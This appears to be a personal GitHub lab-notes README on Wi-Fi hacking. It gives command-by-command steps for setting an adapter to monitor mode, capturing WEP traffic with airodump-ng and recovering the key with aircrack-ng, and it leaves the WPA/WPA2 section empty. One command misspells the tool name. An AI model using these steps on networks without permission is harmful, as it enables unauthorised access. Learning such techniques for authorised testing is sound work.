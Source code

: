 # Network Hacking (wifi)

## Objective
Network Hacking and gaining access to Wifi networks and cracking them.

### Skills Learned

- Sniffing on 5Gz and 2.5Gz wireless networks
- aircrack-ng
  

### Tools Used

- Kali Linux.
- VMware Fusion.
- airodump-ng
- aircrack-ng

## Steps for WAP

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

The mode will be Monitor now

- Sniffing on 5G and 2.4G networks and find the network with the cipher WEP
```bash
airdump-ng --band abg wlan0
```

- Sniffing packets from the network with the WEP cipher with the specific MAC and channel number and save the results in a file test
```bash
airodump-ng --bssid 03:DE:4B:AD:CC:8B --channel 9 --write test mon0
```

- Wait for the #Data number to move real fast and open a new terminal window and ls to find the ".cap" file that you created.
- Use aircrack-ng to find the Key from the file we created ending with .cap
```bash
aircrack-ng test.cap
```
- Copy the key and remove the : and that would be the wifi password.

## Steps for WPA/WPA2

￼
